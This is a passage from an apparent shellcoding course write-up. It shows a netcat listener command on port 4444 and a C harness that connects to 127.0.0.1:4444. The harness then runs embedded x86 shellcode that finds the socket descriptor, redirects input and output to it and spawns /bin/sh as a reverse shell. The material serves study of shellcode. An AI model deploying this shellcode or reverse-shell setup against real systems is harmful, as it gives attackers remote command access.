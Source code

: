 In another window, I set up the `netcat` listener:

```bash
nc -nlp 4444
# fjHh
```

I had to send the string before the C program could connect to it.

Next, compile and run and C program:

```bash
# compile
gcc -w ./file.c

# run
./a.out 
# [+] Trying to find the correct file descriptor
# [+] Correct file descriptor: 3
# [+] Redirecting error, output, and input
```

In the other window you should now have a **reverse shell**. Now that I've tested that it works corrrectly, I had to change it a bit, replacing some of the C code with the shellcode:

```cpp
#include <sys/socket.h>
#include <netinet/ip.h>

unsigned char code[] = \
"\x31\xdb\x53\x89\xe6\x6a\x40\xb7\x0a\x53\x56\x53\x89\xe1\x86"
"\xfb\x66\xff\x01\x6a\x66\x58\xcd\x80\x81\x3e\x66\x6a\x48\x68"
"\x75\xf0\x5f\x89\xfb\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79"
"\xf8\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80";

void main(int argc, char *argv[])
{

    // START block of code of code taken from assignment n.2

    int client_socket_fd;
    char *empty[] = { 0 };
    struct sockaddr_in client_address;

    client_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    client_address.sin_family = AF_INET;
    inet_aton("127.0.0.1", &client_address.sin_addr);
    client_address.sin_port = htons(4444);
    connect(client_socket_fd, (struct sockaddr *)&client_address, sizeof(client_address));

    // END block of code of code taken from assignment n.2

    int (*ret)() = (int(*)())code;
    ret();
}
```
